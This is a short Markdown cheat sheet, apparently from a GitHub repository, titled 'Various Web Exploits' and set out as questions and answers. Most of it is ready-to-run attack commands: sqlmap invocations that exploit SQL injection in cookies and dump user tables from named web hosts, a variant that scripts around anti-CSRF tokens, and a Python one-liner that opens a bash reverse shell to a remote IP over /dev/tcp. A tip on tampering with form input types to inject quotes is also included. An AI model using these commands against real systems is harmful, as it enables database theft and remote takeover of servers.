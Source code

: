 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file and want to peep inside?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```

### In what way can you try to trip up a web form that uses html tags in order to check syntax?
As an example case with `<input ... type='email'>`, you can inspect the tag and change the type to `text` and try submitting a single quote (`'`).

### How do you use sqlmap when the site has an anti-CSRF token mechanism?
```
sqlmap -u http://personnel.wey-tech.com/application-check.php --data="applicantmail=blah&token=M" --csrf-url="http://personnel.wey-tech.com/validator.php?null" --csrf-token=token -v 6
```
If that doesn't work, you may need to use `eval` to write a custom python script.
```
sqlmap -u http://personnel.wey-tech.com/application-check.php --data="applicantmail=blah&token=M" --eval "import time;time.sleep(1);import urllib;page = urllib.urlopen('http://personnel.wey-tech.com/validator.php');token = urllib.quote(str(page.read()).decode('utf-8'));print(token)" -p applicantmail --user-agent='Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0' -v 4
```
